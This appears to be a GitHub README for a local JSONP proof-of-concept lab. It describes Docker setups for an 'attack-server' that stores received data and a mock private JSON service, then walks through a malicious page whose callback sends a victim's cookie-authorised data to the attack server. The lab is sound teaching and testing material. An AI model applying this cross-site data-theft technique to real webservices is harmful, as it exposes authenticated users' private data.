 # JSONP-PoC
JSONP (=JSON with padding) is a special method to wrap JSON data in a JavaScript function.
If a webervice allows requests with custom defined callback-functions, the webservice might be vulnerable to JSONP attacks.
How this could be achieved, is described below.

## Starting the attack-server
The attack-server is the server that receives our data and stores it in a file. To do this, we need to make a POST request to http://127.0.0.1:8082/store.php with the `data` parameter. For example:
```
POST /store.php HTTP/1.1
Host: 127.0.0.1:8082
User-Agent: Firefox
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Connection: close
Upgrade-Insecure-Requests: 1

data=test
```
See also `test-post.html` which can be used to make such POST requests.

To start the server:
```
cd attack-server
docker run --rm -p 8082:80 --name attack-server --mount type=bind,source="$(pwd)",target=/var/www/html php:apache
```
The file `./data/data.sav` may still need to be given the correct permissions:
```
docker exec -it attack-server bash
mkdir data
touch data/data.sav
chown -R www-data:www-data data
```

## Starting the (private) json-webserver
```
cd json-webserver
docker run --rm -p 3000:3000 --name json-server -v `pwd`:/data williamyeh/json-server --watch db.json
```

## Stopping the servers
```
docker stop attack-server
docker stop json-server
```

## Checks
Verify if POST-requests can be sent to the attack-server:
```
http://127.0.0.1:8082/test-post.html
```
Change into the docker container and output the file `data.sav`:
```
docker exec -it attack-server bash
cat /var/www/html/data/data.sav
```
The file `data.sav` should contain the string that you sent via the `test-post.html` website.

Check if the json-webserver is running and responds with JSON-data:
```
http://127.0.0.1:3000/posts
```

## PoC
Now assume the following scenario:
If the webservice or the data served by the webservice (json-webserver) is only accessible to authorized users, there is no way to directly access this private data by an attacker. For example, accessibility to the data could be granted to users that include certain cookies or other secrets into their requests. The webservice would then respond to these requests only if the cookies are valid.

If however the webservice allows JSONP, we could create a malicious website that makes requests from the victims browser to the vulnerable webservice. The requests sent from the victims browser would include all necessary cookies to authorize against the webservice.
The only thing to do is to lure the victim to the malicious website.
In our PoC the malicious website is running under
```
http://127.0.0.1:8082/jsonp-attack.html
```

If the victim opens this link, a request to the webservice with a callback parameter is made:
```
http://127.0.0.1:3000/posts?callback=myCallbackServer
```
The callback `myCallbackServer` is a JavaScript-function that takes the data received from the webservice and sends it back to our attack-server via
```
http://127.0.0.1:8082/store.php
```

If the data from the webservice was received corretly can be checked as previously by cat'ing the file `data.sav`:
```
docker exec -it attack-server bash
cat /var/www/html/data/data.sav
```
